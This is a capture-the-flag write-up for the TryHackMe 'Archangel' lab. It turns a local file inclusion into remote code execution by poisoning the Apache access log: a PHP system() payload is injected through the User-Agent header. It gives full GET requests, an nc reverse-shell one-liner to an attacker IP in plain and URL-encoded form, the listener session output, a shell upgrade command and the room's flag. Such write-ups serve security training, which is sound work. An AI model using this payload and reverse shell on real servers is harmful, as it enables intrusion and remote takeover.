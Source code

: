 https://github.com/0xNirvana/Writeups/blob/master/TryHackMe/Easy/archangel/archangel.md

From the access logs it can be seen that along with the path that we are trying to access our User-Agent is also getting logged. We can add a PHP code in the User-Agent header using Burp Suite and with the help of that gain a reverse shell.

create a custom get request with variable *cmd* containing a command to run on the system

in the user agent of the get request, inset php code that will execute a function on the system with the value of the *cmd* variable from the input URL

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&cmd=whoami HTTP/1.1
Host: mafialive.thm
User-Agent: Mozilla/5.0 <?php system($_GET['cmd']); ?> (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

![[lfipoc.png]]

now substituting that *whoami* command for a reverse shell

start a listener on the attacker machine

```
nc -lvnp 1337
```

https://www.revshells.com/

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.24.127 1337 >/tmp/f
```


url encode it

https://www.urlencoder.org/

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.6.24.127%201337%20%3E%2Ftmp%2Ff
```


new get request

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.6.24.127%201337%20%3E%2Ftmp%2Ff HTTP/1.1
Host: mafialive.thm
User-Agent: Mozilla/5.0 <?php system($_GET['cmd']); ?> (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```


```
listening on [any] 1337 ...
connect to [10.6.24.127] from (UNKNOWN) [10.10.93.86] 48340
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu 4.15.0-123-generic #126-Ubuntu SMP Wed Oct 21 09:40:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ 
```


upgrade the shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

/home/archangel/user.txt

```
thm{lf1_t0_rc3_1s_tr1cky}
```

